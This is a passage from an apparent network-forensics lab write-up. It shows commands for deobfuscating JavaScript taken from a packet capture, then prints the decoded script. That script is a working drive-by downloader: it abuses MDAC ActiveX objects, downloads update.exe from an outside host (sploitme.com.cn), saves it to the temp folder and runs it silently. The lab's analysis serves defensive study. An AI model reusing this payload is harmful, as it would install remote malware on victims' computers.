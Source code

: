 ```c
C:\Demo>type jscode1.js | js-ascii.exe -e "document.output('a')" -
```


###### From packet `174`:

Command:

```c
C:\Users\husky\Desktop\CCD_NetworkForensicsLabs\Windows>type jscode2.js | js-ascii.exe -
```

Output in cmd terminal:

![](/assets/img/Pasted image 20240809130810.png)

Modifying the output type:

```c
C:\Users\husky\Desktop\CCD_NetworkForensicsLabs\Windows>type jscode2.js | js-ascii.exe -e "document.output('D')" -
```

Output:

![](/assets/img/Pasted image 20240809131726.png)


JavaScript code:

```c
function Complete(){setTimeout('location.href = "about:blank',2000);}

function CheckIP(){var req=null;try{req=new ActiveXObject("Msxml2.XMLHTTP");}catch(e){try{req=new ActiveXObject("Microsoft.XMLHTTP");}catch(e){try{req=new XMLHttpRequest();}catch(e){}}}
	if(req==null)return"0";req.open("GET","/fg/show.php?get_ajax=1&r="+Math.random(),false);req.send(null);if(req.responseText=="1"){return true;}else{return false;}}
	var urltofile='http://sploitme.com.cn/fg/load.php?e=1';var filename='update.exe';function CreateO(o,n){var r=null;try{r=o.CreateObject(n)}catch(e){}
	if(!r){try{r=o.CreateObject(n,'')}catch(e){}}
	if(!r){try{r=o.CreateObject(n,'','')}catch(e){}}
	if(!r){try{r=o.GetObject('',n)}catch(e){}}
	if(!r){try{r=o.GetObject(n,'')}catch(e){}}
	if(!r){try{r=o.GetObject(n)}catch(e){}}
return r;}

	function Go(a){var s=CreateO(a,'WScript.Shell');var o=CreateO(a,'ADODB.Stream');var e=s.Environment('Process');var xhr=null;var bin=e.Item('TEMP')+'\\'+filename;try{xhr=new XMLHttpRequest();}
	catch(e){try{xhr=new ActiveXObject('Microsoft.XMLHTTP');}
	catch(e){xhr=new ActiveXObject('MSXML2.ServerXMLHTTP');}}
	if(!xhr)return(0);xhr.open('GET',urltofile,false)
	xhr.send(null);var filecontent=xhr.responseBody;o.Type=1;o.Mode=3;o.Open();o.Write(filecontent);o.SaveToFile(bin,2);s.Run(bin,0);
}

function mdac(){var i=0;var objects=new Array('{BD96C556-65A3-11D0-983A-00C04FC29E36}','{BD96C556-65A3-11D0-983A-00C04FC29E36}','{AB9BCEDD-EC7E-47E1-9322-D4A210617116}','{0006F033-0000-0000-C000-000000000046}','{0006F03A-0000-0000-C000-000000000046}','{6e32070a-766d-4ee6-879c-dc1fa91d2fc3}','{6414512B-B978-451D-A0D8-FCFDF33E833C}','{7F5B7F63-F06F-4331-8A26-339E03C0AE3D}','{06723E09-F4C2-43c8-8358-09FCD1DB0766}','{639F725F-1B2D-4831-A9FD-874847682010}','{BA018599-1DB3-44f9-83B4-461454C84BF8}','{D0C07D56-7C69-43F1-B4A0-25F5A11FAB19}','{E8CCCDDF-CA28-496b-B050-6C07C962476B}',null);while(objects[i]){var a=null;if(objects[i].substring(0,1)=='{'){a=document.createElement('object');a.setAttribute('classid','clsid:'+objects[i].substring(1,objects[i].length-1));}else{try{a=new ActiveXObject(objects[i]);}catch(e){}}
if(a){try{var b=CreateO(a,'WScript.Shell');if(b){if(Go(a)){if(CheckIP()){Complete();}else{Complete();}
return true;}}}catch(e){}}
i++;}
```